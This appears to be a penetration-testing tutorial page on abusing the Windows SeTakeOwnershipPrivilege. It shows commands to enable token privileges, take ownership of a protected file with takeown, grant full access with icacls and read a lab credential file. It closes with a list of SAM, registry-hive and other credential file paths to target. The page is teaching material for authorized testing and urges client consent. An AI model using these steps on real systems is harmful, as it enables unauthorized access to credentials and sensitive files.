 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# SeTakeOwnershipPrivlege Exploitation

[SeTakeOwnershipPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects) grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes. This privilege assigns [WRITE\_OWNER](https://docs.microsoft.com/en-us/windows/win32/secauthz/standard-access-rights) rights over an object, meaning the user can change the owner within the object's security descriptor.

Administrators are assigned this privilege by default. While it is rare to encounter a standard user account with this privilege, we may encounter a service account that, for example, is tasked with running backup jobs and VSS snapshots assigned this privilege. It may also be assigned a few others such as `SeBackupPrivilege`, `SeRestorePrivilege`, and `SeSecurityPrivilege` to control this account's privileges at a more granular level and not granting the account full local admin rights.

The setting can be set in Group Policy under:

`Computer Configuration` ⇾ `Windows Settings` ⇾ `Security Settings` ⇾ `Local Policies` ⇾ `User Rights Assignment`

## Example

### **Reviewing Current User Privileges**

Let's review our current user's privileges.

```powershell
PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                              State
============================= ======================================================= ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                                Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                          Disabled
```

### **Enabling SeTakeOwnershipPrivilege**

Notice from the output that the privilege is not enabled. We can enable it using this [script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) which is detailed in [this](https://www.leeholmes.com/blog/2010/09/24/adjusting-token-privileges-in-powershell/) blog post, as well as [this](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77) one which builds on the initial concept.

```powershell
PS C:\> Import-Module .\Enable-Privilege.ps1
PS C:\> .\EnableAllTokenPrivs.ps1
PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```

### **Choosing a Target File**

Next, we choose a target file and confirm the current ownership. It is common to encounter file shares with `Public` and `Private` directories with subdirectories set up by department. Given a user's role in the company, they can often access specific files/directories. Even with a structure like this, a sysadmin may misconfigure permissions on directories and subdirectories, making file shares a rich source of information for us once we have obtained Active Directory credentials (and sometimes even without needing credentials).

Given that our user account has `SeTakeOwnershipPrivilege` (which may have already been granted), or we exploit some other misconfiguration such as an overly permissive Group Policy Object (GPO) to grant our user account that privilege) we can leverage it to read any file of our choosing.

{% hint style="danger" %}
#### Changing Permissions

Take care when performing a potentially destructive action like changing file ownership, as it could cause an application to stop working or disrupt user(s) of the target object. Changing the ownership of an important file, such as a live web.config file, is not something we would do without consent from our client first. Furthermore, changing ownership of a file buried down several subdirectories (while changing each subdirectory permission on the way down) may be difficult to revert and should be avoided.
{% endhint %}

Let's check out our target file to gather a bit more information about it.

```powershell
PS C:\> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
 
FullName                                 LastWriteTime         Attributes Owner
--------                                 -------------         ---------- -----
C:\Department Shares\Private\IT\cred.txt 6/18/2021 12:23:28 PM    Archive
```

### **Checking File Ownership**

We can see that the owner is not shown, meaning that we likely do not have enough permissions over the object to view those details. We can back up a bit and check out the owner of the IT directory.

```powershell
PS C:\> cmd /c dir /q 'C:\Department Shares\Private\IT'

 Volume in drive C has no label.
 Volume Serial Number is 0C92-675B
 
 Directory of C:\Department Shares\Private\IT
 
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  .
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  ..
06/18/2021  12:23 PM                36 ...                    cred.txt
               1 File(s)             36 bytes
               2 Dir(s)  17,079,754,752 bytes free
```

We can see that the IT share appears to be owned by a service account and does contain a file `cred.txt` with some data inside it.

### **Taking Ownership of the File**

Now we can use the [takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) Windows binary to change ownership of the file.

```powershell
PS C:\> takeown /f 'C:\Department Shares\Private\IT\cred.txt'
 
SUCCESS: The file (or folder): "C:\Department Shares\Private\IT\cred.txt" now owned by user "WINLPE-SRV01\htb-student".
```

### **Confirming Ownership Changed**

We can confirm ownership using the same command as before. We now see that our user account is the file owner.

```powershell
PS C:\> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
 
Name     Directory                       Owner
----     ---------                       -----
cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\htb-student
```

### **Modifying the File ACL**

We may still not be able to read the file and need to modify the file ACL using `icacls` to be able to read it.

```powershell
PS C:\> cat 'C:\Department Shares\Private\IT\cred.txt'

cat : Access to the path 'C:\Department Shares\Private\IT\cred.txt' is denied.
At line:1 char:1
+ cat 'C:\Department Shares\Private\IT\cred.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Department Shares\Private\IT\cred.txt:String) [Get-Content], Unaut
   horizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

Let's grant our user full privileges over the target file.

```powershell
PS C:\> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F

processed file: C:\Department Shares\Private\IT\cred.txt
Successfully processed 1 files; Failed processing 0 files
```

### **Reading the File**

If all went to plan, we can now read the target file from the command line, open it if we have RDP access, or copy it down to our attack system for additional processing (such as cracking the password for a KeePass database).

```powershell
PS C:\> cat 'C:\Department Shares\Private\IT\cred.txt'

NIX01 admin
 
root:n1X_p0wer_us3er!
```

After performing these changes, we would want to make every effort to revert the permissions/file ownership. If we cannot for some reason, we should alert our client and carefully document the modifications in an appendix of our report deliverable. _**Again, leveraging this permission can be considered a destructive action and should be done with great care.**_ Some clients may prefer that we document the ability to perform the action as evidence of a misconfiguration but not fully take advantage of the flaw due to the potential impact.

## **Files of Interest**

Some local files of interest may include:

```
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```

We may also come across `.kdbx` KeePass database files, OneNote notebooks, files such as `passwords.*`, `pass.*`, `creds.*`, scripts, other configuration files, virtual hard drive files, and more that we can target to extract sensitive information from to elevate our privileges and further our access.
